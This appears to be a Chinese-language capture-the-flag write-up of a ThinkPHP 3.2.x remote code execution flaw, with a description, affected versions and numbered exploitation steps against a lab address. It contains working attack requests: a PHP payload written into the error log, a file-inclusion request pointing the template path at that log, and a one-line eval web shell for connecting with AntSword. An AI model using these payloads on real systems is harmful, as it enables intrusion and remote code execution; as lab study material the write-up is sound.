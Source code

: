 # ThinkPHP 3.2.x远程代码执行
## 漏洞描述
ThinkPHP的远程代码执行漏洞是在受影响的版本中，业务代码中如果模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

## 影响版本
ThinkPHP3.2.x

## 利用流程
1.访问地址：118.193.36.37:59521
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1.jpg)
2.写入攻击代码到日志中。错误请求系统报错：
```
118.193.36.37:59521/index.php?m=--><?=phpinfo();?>
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/2.jpg)
3.日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：
```
\Application\Runtime\Logs\Common\21_07_20.log
```
4.构造攻击请求：
```
118.193.36.37:59521/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_20.log
```
5.蚁剑连接 
```
118.193.36.37:59521/index.php?m=--><?=eval(@$_POST['a']);?>
```
测试成功 但无法访问 传入phpinfo Ctrl+g得到flag
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/3.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/4.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/5.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/6.jpg)